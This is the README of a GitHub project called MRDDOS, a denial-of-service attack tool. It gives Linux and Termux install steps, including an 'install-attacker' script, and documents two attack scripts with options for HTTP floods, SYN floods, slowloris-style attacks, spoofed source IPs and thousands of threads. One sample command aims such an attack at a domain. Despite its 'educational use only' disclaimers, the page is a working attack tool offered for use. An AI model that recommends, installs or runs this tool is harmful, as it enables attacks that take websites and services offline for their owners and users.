 ## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot](https://github.com/WHITEDH4CKER/MRDDOS/blob/main/Screenshots/ddos1.png) 
***
![App Screenshot](https://github.com/WHITEDH4CKER/MRDDOS/blob/main/Screenshots/ddos2.png)
***

## INSTALLATION:
   #### ➡️use the following commands for Linux:

```shell script
sudo apt update && apt upgrade
```

```shell script
sudo apt-get install python-pip
```

```shell script
sudo pip install colorama termcolor requests
```

```shell script
git clone https://github.com/WHITEDH4CKER/MRDDOS
```

```shell script
cd MRDDOS
```

```shell script
chmod +x *
```

```shell script
./install-attacker
```

## Usage
   #### DODOS_1
   ```
        USAGE: python MRDDOS_1.py <url> [OPTIONS]
   OPTIONS:
        Flag           Description                     Default
        -u, --useragents   File with user-agents to use                     (default: randomly generated)
        -w, --workers      Number of concurrent workers                     (default: 50)
        -s, --sockets      Number of concurrent sockets                     (default: 30)
        -m, --method       HTTP Method to use 'get' or 'post'  or 'random'  (default: get)
        -d, --debug        Enable Debug Mode [more verbose output]          (default: False)
        -n, --nosslcheck   Do not verify SSL Certificate                    (default: True)
        -h, --help         Shows this help
```
   #### DDOS_2 
```
        USAGE: python MRDDOS_2.py -t [target] -p [port] -t [number threads]
   OPTIONS:
        Flag           Description
  -h, --help       show this help message and exit
  -d, <ip|domain>   Specify your target such an ip or domain name
  -t ,<float>       Set timeout for socket
  -T, int>         Set threads number for connection (default = 1000)
  -p, <int>         Specify port target (default = 80) |Only required with pyslow attack|
  -s, <int>         Set sleep time for reconnection
  -i, <ip address>  Specify spoofed ip unless use fake ip
  -Request         Enable request target
  -Synflood        Enable synflood attack
  -Pyslow          Enable pyslow attack
  --fakeip         Option to create fake ip if not specify spoofed ip

Example:
    python MRDDOS_2.py -d www.example.com -p 80 -T 2000 -Pyslow
```

#### ➡️use the following commands for Termux:

```shell script
pkg update && pkg upgrade -y
```

```shell script
pkg install git -y
```

```shell script
git clone https://github.com/WHITEDH4CKER/MRDDOS
```

```shell script
cd MRDDOS
```

```shell script
apt install python -y
```

```shell script
pip install colorama
```

```shell script
chmod +x *
```

```shell script
./install-attacker
```

```shell script
python MRDDOS_1.py
```
***
![App Screenshot](https://github.com/WHITEDH4CKER/MRDDOS/blob/main/Screenshots/termux.jpg)
***

## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Telegram](https://t.me/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)
### ➡️ [WhatsApp channel](https://whatsapp.com/channel/0029VaIlY264IBh9T2iaey0r)

***

### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 10.12.2023 </p>
